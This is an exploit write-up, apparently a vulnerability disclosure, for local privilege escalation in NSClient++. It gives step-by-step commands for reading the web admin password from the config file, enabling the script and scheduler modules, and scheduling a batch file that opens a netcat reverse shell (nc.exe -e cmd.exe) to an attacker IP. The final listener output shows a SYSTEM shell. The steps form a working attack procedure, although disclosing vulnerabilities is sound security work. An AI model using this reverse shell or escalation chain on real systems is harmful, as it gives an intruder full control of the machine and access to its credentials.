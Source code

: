 ```
The user is able to enable the modules to check external scripts and schedule those scripts to run.  There doesn't seem to be restrictions on where the scripts are called from, so the user can create the script anywhere.  Since the NSClient++ Service runs as Local System, these scheduled scripts run as that user and the low privilege user can gain privilege escalation.  A reboot, as far as I can tell, is required to reload and read the changes to the web config.

Prerequisites:
To successfully exploit this vulnerability, an attacker must already have local access to a system running NSClient++ with Web Server enabled using a low privileged user account with the ability to reboot the system.

Exploit:
1. Grab web administrator password
- open c:\program files\nsclient++\nsclient.ini
or
- run the following that is instructed when you select forget password
        C:\Program Files\NSClient++>nscp web -- password --display
        Current password: SoSecret

2. Login and enable following modules including enable at startup and save configuration
- CheckExternalScripts
- Scheduler

3. Download nc.exe and evil.bat to c:\temp from attacking machine
        @echo off
        c:\temp\nc.exe 192.168.0.163 443 -e cmd.exe

4. Setup listener on attacking machine
        nc -nlvvp 443

5. Add script foobar to call evil.bat and save settings
- Settings > External Scripts > Scripts
- Add New
        - foobar
                command = c:\temp\evil.bat

6. Add schedulede to call script every 1 minute and save settings
- Settings > Scheduler > Schedules
- Add new
        - foobar
                interval = 1m
                command = foobar

7. Restart the computer and wait for the reverse shell on attacking machine
        nc -nlvvp 443
        listening on [any] 443 ...
        connect to [192.168.0.163] from (UNKNOWN) [192.168.0.117] 49671
        Microsoft Windows [Version 10.0.17134.753]
        (c) 2018 Microsoft Corporation. All rights reserved.

        C:\Program Files\NSClient++>whoami
        whoami
        nt authority\system

Risk:
The vulnerability allows local attackers to escalate privileges and execute arbitrary code as Local System     
```

